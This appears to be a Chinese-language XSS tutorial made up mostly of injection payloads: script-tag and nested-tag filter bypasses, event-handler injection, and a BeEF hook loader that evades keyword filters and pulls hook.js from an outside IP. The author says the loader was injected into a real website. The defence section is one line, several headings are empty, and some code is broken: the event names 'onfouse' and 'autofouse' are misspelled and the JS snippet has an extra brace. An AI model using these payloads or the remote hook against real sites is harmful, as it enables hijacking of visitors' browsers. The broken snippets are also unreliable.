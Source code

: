 #05.XSS:跨站点脚本

##2.1 XSS介绍

###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行playload，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

####2.2.2.1 伪协议javascript:alert('xss')

####2.2.2.2 伪协议data:text/html

####2.2.2.3 绕过关键字过滤的技巧

以下是我成功注入一个网站的一段js代码，系统对window,document,createElement,js等关键字进行了过滤，但还是被成功注入了。
```javascript
if(typeof beef=='undefined'){
  var url='http://119.xxx.128.103:3000/hook.'+'j'+'s';
  dd=self['d'+'o'+'cument'];
  bf=dd['create'+'Element']('script');
  bf.async=true;
  bf.src=url;dd.body.appendChild(bf);}
}
```

####2.2.2.3  完恶之源eval

##2.3 XSS防注
  
  
    数据和架构分离：前端模板jQuery，ejs，ployer，$('<div/>')
  
##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科

  
  
  
  
  
  
  

  
